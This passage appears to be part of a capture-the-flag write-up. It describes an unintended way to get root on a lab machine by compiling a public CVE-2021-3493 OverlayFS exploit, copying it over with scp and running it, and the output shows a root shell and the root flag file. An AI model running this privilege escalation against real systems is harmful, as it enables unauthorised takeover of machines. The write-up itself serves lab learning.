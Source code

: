 
## Unintended root overlayfs

There was another way to get root on the machine but only in the `vip+` network, which was quickly patched after the release. The machine wasn't patched on this network against [CVE-2021-3493](https://github.com/0dayCTF/CVE-2021-3493).

Compiling the exploit locally and transfering it to the machine you got a quick root by simply running it.

```js
$ gcc exploit.c -o exploit
```

```
$ scp exploit marcus@10.129.136.121:/home/marcus
marcus@10.129.136.79's password:
exploit							   100%   17KB  59.5KB/s   00:00
```

```js
marcus@monitor:~$ ./exploit
bash-4.4# id
uid=0(root) gid=0(root) groups=0(root),1000(marcus)
bash-4.4# cd /root
bash-4.4# ls
root.txt
```
